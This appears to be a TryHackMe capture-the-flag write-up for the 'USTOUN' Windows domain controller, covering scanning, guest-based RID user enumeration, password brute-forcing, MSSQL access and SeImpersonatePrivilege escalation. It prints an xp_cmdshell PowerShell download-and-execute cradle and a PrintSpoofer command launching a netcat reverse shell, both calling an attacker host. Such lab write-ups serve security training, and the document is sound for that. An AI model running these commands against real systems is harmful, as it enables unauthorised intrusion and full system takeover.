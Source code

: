 ```yaml
---
title: USTOUN TryHackMe Writeup
tags: [writeup,tryhackme,active-directory,crackmapexec,windows,rid,mssql-client]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/1.png)

## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/2.png)

Then, knowing the ports, we will launch an nmap with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/3.png)


## Enumeration
We test if we can authenticate with an anonymous user, we see that we cannot.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/4.png)

Another test that I usually do in real environments, is to test with the *"guest"* user, which is usually enabled by default. As you can see in the evidence, we can use it to get the users by their **RID**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/5.png)

We create a list of the most relevant users obtained and brute force the *"rockyou"* dictionary. We will get some credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/6.png)


## Exploitation
After several tests in different services, we found that the credentials are functional in the *"Microsoft SQL Server"* service, from here we will be able to load a reverse shell.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/7.png)

```powershell
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.11.30.149:8000/m3.ps1\")
```

#### Reverse shell connection

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/8.png)

## Privilege Escalation
We tried to read the user flag, but we do not have access. We check the user's privileges and see that we could escalate by impersonating the user **"Administrator"** using **"SeImpersonatePrivilege"**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/9.png)

We identify the exact version of Windows installed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/10.png)

We download the **PrintSpoofer** exploit from this [github](https://github.com/itm4n/PrintSpoofer), we also download **netcat** to the victim machine and run the following command putting a listening **netcat** on our Kali.

```
.\PrintSpoofer.exe -c "C:\users\SVC-Kerb.DC01\Videos\nc.exe 10.11.30.149 444 -e cmd"
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/13.png)

#### Reverse shell as Administrator

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/13-2.png)

And now we read the two flags.

#### User flag

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/15.png)

#### Administrator flag

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/14.png)




